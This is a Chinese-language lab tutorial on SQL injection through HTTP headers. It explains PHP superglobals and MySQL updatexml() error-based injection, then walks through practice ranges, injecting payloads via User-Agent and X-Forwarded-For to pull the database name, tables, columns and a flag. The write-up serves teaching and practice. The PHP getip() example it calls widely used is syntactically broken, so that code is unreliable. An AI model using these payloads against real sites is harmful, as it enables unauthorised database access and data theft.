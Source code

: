 # chapter 3.3 - HEAD Injection

[TOC]

## 0x01 原理与相关概念

### HTTP请求头（HEAD）

包含的常用信息：

1. User-Agent：浏览器身份标识的字符串。
2. Cookie：个人认证和跨页面固定参数。
3. Referer：表示浏览器所访问的前一个页面，可以认为是之前访问页面的链接将浏览器带到了当前页面。

HEAD注入即在向页面传参时将payload构建在HTTP请求头的位置。

### 超全局变量

> 在PHP中许多的预定义变量都是超全局的，这意味着它们在一个脚本的全部作用域中都可用

|   超全局变量 |                             含义                             |
| -----------: | :----------------------------------------------------------: |
|    $_REQUEST |         获取GET/POST/COOKIE（新版本不能获取COOKIE）          |
|       $_POST |                         获取POST传参                         |
|        $_GET |                         获取GET传参                          |
|     $_COOKIE |                        获取COOKIE传参                        |
| **$_SERVER** | （※功能强大） 包含了诸如头信息(HEADER)、路径(PATH)、以及脚本位置等信息的数组 |

常用的$_SERVER参数获取：

$_SERVER['HTTP_REFERER']  --- 获取Referer请求头数据

$_SERVER["HTTP_USER_AGENT"]  --- 获取用户相关信息，包括用户浏览器、操作系统等信息。

$_SERVER["REMOTE_ADDR"]  --- 浏览网页的用户IP。

### updatexml()函数

updatexml() 是更新xml文档的函数，语法：

```mysql
updatexml([locate_content],[PATH],[update_content])
```

在正常的使用中，我们通过把三个参数分别填入目标XML内容，XML文档路径，更新的XML内容来对XML文档进行更新。但是当我们在XML文档路径填入特殊符号（如：`!`和`~`）时，由于不符合第二个参数所需要的Xpath格式的字符串于是将错误路径进行报错，于是利用这个特性我们可以构成以下payload：

```mysql
updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)
#可见PATH部分我们使用的以下函数：
concat(0x7e,(SELECT database()),0x7e)
#实际上为拼接字符串：
~[SELECT database()]~ -- 由于MySQL执行十六进制字符串，"~"对对应的便是"0x7e"
```

于是在执行时，数据库便会在执行了此子查询后将错误信息报告出来，实现了报错注入。

### X-Forwarded-For参数

当今多数缓存服务器的用户为了通过缓存的方式降低外部带宽，常常鼓励或强制用户使用代理服务器接入互联网。而WEB服务器为了能够获取到用户的真实IP便会读取用户请求中的`X-Forwarded-For`参数(如果存在)。

以下的GetIP函数为大量网站及CMS广泛使用：

```php
function getip(){
    if(getenv('HTTP_CLIENT_IP')){
        $ip = getenv('HTTP_CLIENT_IP');
    }else if(getenv('HTTP_X_FORWARDED_FOR'){
        $ip = getenv('HTTP_X_FORWARDED_FOR');
    }else if getenv('HTTP_X_FORWARDED'){
        $ip = getenv('HTTP_X_FORWARDED');
    }else if getenv('HTTP_FORWARDED_FOR'){
        $ip = getenv('HTTP_FORWARDED_FOR');
    }else if getenv('HTTP_FORWARDED'){
        $ip = getenv('HTTP_FORWARDED'); 
        //以上通过X-FORWARDED-FOR参数均能传参，为客户端指定的向代理转发的真实IP
    }else{
        $ip = $_SERVER['REMOTE_ADDR']; 
        //REMOTE_ADDR代表着与服务器建立TCP链接的目标客户端IP，如果存在代理，则为代理机器的IP值
    }
    return $ip;
}
```

由上述源码可见，在WEB服务器获取用户或代理IP时并没有进行过滤，于是便存在了注入漏洞。

## 0x02 注入思路

1. 暴破出弱用户名及密码

   由于HEADER的验证保存需要空间成本，所以通常不会记录登录失败的用户，要进行暴破登入

2. 在HTTP请求头中设置payload

3. 通过添加或修改X-Forwarded-For参数设置payload

4. 通过页面内数据库报错获取信息

## 0x03 靶场实战

1. 暴破出用户名和密码

   ​	<img src="https://i.loli.net/2020/11/16/dYPlkCnaZsFS3O5.png" alt="1.png" style="zoom:67%;" />

2. 审查源码，发现传参方式为USER_AGENT

   ```php
   $_SERVER['HTTP_USER_AGENT']
   ```

   ​	<img src="https://i.loli.net/2020/11/16/8awWUo9tsjbul6Z.png" alt="源码1.png" style="zoom:70%;" />

3. 审查源码，发现POST注入的表单框由于添加了转义字符无法实现SQL注入

4. 在请求头设置payload

   1. 在靶场1中使用USER-AGENT传参

      ```mysql
      1' and updatexml(1,concat(0x7e,(select database())),1),'3') -- qwe
      ```

      ​	![3.png](https://i.loli.net/2020/11/16/PwSYD6NUxcjpZme.png)

      **数据库在页面上显示出报错：**

      ![4.png](https://i.loli.net/2020/11/16/SsUhRn2mft173GB.png)

      **按照常规SQL注入方法替换payload进行注入**

      ```mysql
      1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),'3') -- qwe 找表名
      
      1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='flag_head' limit 1,1)),1),'3') -- qwe 找字段名
      
      1' and updatexml(1,concat(0x7e,(select flag_h1 from flag_head limit 1,1)),1),'3') -- qwe 找flag
      ```

      ![5.png](https://i.loli.net/2020/11/16/vrTAq4pmWzUblO8.png)

      <img src="https://i.loli.net/2020/11/16/8OpDISXFV7P21lU.png" alt="6.png" />

      <img src="https://i.loli.net/2020/11/16/8OpDISXFV7P21lU.png" alt="6.png" style="zoom:67%;" />

      ![7.png](https://i.loli.net/2020/11/16/z1LjuKcdFkSBM6y.png)

   2. 在靶场2中将Header改为Referer传参

   3. 在靶场3中使用X-Forward-For传参

      ```php
      X-Forwarded-For: 1' and updatexml(1,concat(0x7e,(select database())),1),'3') -- qwe
      ```

      

      ![8.png](https://i.loli.net/2020/11/16/IQxMop2VlfurCRZ.png)

      ![9.png](https://i.loli.net/2020/11/16/XDqIB1WpQZye5iY.png)

   

   

## 0x03 思考与要点

1. X-Forward-For参数在HEAD内本不包含时可以尝试手动添加。
2. HEAD内所有参数传参时记得在参数名冒号后加空格。
3. `and`表示逻辑与，`or`表示逻辑或，按优先级排序`and > or`。在注入过程中可能因为函数的结合问题影响优先级，可以分别尝试and和or。



